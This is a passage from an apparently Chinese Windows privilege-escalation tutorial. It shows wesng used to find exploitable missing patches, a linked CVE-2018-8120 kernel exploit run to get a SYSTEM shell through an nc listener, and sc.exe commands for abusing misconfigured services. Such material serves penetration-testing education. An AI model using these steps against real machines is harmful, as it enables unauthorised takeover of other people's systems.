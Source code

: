 ### 2.运行wesng查找潜在漏洞：

<https://github.com/lowliness9/wesng>

```php
python wes.py 1.txt -i 'Elevation of Privilege' --exploits-only | less
```

![image-20210706103733449](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d94656f6e392ece38630548d7ac0a4d4d0d669d1.png)

### 3.已编译漏洞的交叉引用结果：

<https://github.com/SecWiki/windows-kernel-exploits>

### 4.漏洞利用

<https://github.com/SecWiki/windows-kernel-exploits/blob/master/CVE-2018-8120/x64.exe>

### 5.系统权限

kali上启动nc监听 拿到系统权限

```php
x64.exe C:\Users\dayu\Desktop\a002.exe
```

![image-20210706105744266](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9b449022088bf4a13f4519ff71415af350ca96af.png)

0x05 服务漏洞
=========

前言
--

服务只是在后台运行、接受输入或执行常规任务的程序。

如果服务使用系统权限运行并配置错误，则利用它们也可能导致具有系统权限的命令执行

基本命令
----

查询服务的配置：

```php
sc.exe qc <name>
```

查询服务的当前状态：

```php
sc.exe query <name
```

修改服务的配置选项：

```php
sc.exe config <name <option= <value
```
